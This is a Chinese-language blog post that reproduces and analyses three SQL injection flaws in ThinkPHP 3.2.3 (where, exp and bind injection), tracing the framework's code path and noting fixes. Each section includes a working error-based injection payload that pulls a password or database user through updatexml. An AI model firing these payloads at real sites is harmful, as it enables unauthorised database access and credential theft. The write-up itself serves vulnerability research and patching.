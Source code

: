 ```yaml
---
title: "ThinkPhp3漏洞总结"
date: 2020-02-06T17:47:24+08:00
draft: flase
tags: [漏洞复现]
categories: []
comment: true
---
```

ThinkPhp3漏洞总结
<!--more-->
# ThinkPhp3漏洞总结

## 环境搭建

- 下载源码


![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227170830.png)

- 编辑器使用了phpstrom

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227171652.png)

- 配置数据库

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227172147.png)

- 添加测试数据

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227181617.png)

## Thinkphp3.2.3 where注入

- payload

```
?id[where]=1 and 1=updatexml(1,concat(0x7e,(select password from users limit 1),0x7e),1)%23
```

- 断点

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227210620.png)

### 分析

- 经过htmlspecialchars过滤

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227213305.png)

- 于442行通过think_filter函数进行过滤

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227213938.png)

- 经过ThinkPHP/Library/Think/Model.class.php:779的find()方法

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227215603.png)

- 满足条件则进入

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227221704.png)

- 强制进行转换，转换为了int形

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227222201.png)

- 带入查询

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227222618.png)

- 步骤

```
id=1' -> I() -> find() -> __parseOptions(） ->_parseType()
```

**满足条件才能进去__parseOptions()方法**

- 条件

```
if (isset($options['where']) && is_array($options['where']) && !empty($fields) && !isset($options['join']))
```

- 绕过

```
index.php?id[where]=3 and 1=1
```

### 修复

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227223224.png)


## Thinkphp 3.2.3 exp注入

- 部署环境

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228132814.png)

- payload

```
http://localhost:8888/tp3/index.php?username[0]=exp&username[1]==1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228140738.png)

### 分析
- 进入Model.class.php的822行$this->select($options)

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228142850.png)

- 跟进select方法

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228143015.png)

- 跟踪Driver.class.php中的parseSql方法

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228143524.png)

- 跟踪Driver.class.php中的parseWhere方法

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228152545.png)

- 经过$whereStr .= $this->parseWhereItem($this->parseKey($key), $val)方法，跟踪进去

```
需要时数组才可以进去if语句
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228153342.png)

- 语句exp直接拼接构成注入

```
 } elseif ('bind' == $exp) {
                    // 使用表达式
 $whereStr .= $key . ' = :' . $val[1];
```

### 修复

使用I方法接受会通过think_filter函数进行过滤

## thinkphp 3.2.3 bind注入

- payload

```
index.php?id[0]=bind&id[1]=0 and updatexml(1,concat(0x7e,user(),0x7e),1)&password=1
```
- 环境部署

```
    public function index()
    {
        $User = M("Users");
        $user['id'] = I('id');
        $data['password'] = I('password');
        $valu = $User->where($user)->save($data);
        var_dump($valu);
    }
```

**上文说到除了exp还有bind可以进行注入**

- 报错

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228163022.png)

- 进入update方法

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228163643.png)

- 进入到了parseWhereItem方法（bind可以注入）

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228164149.png)

- 于函数bindParam进行了添加冒号

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228172421.png)

- 在Driver.class.php文件execute中进行冒号替换

```
if (!empty($this->bind)) {
            $that           = $this;
            $this->queryStr = strtr($this->queryStr, array_map(function ($val) use ($that) {return '\'' . $that->escapeString($val) . '\'';}, $this->bind));
}
```
- 如果payload不是0的话

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228231232.png)

### 修复

```
https://github.com/top-think/thinkphp/commit/7e47e34af72996497c90c20bcfa3b2e1cedd7fa4
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228175421.png)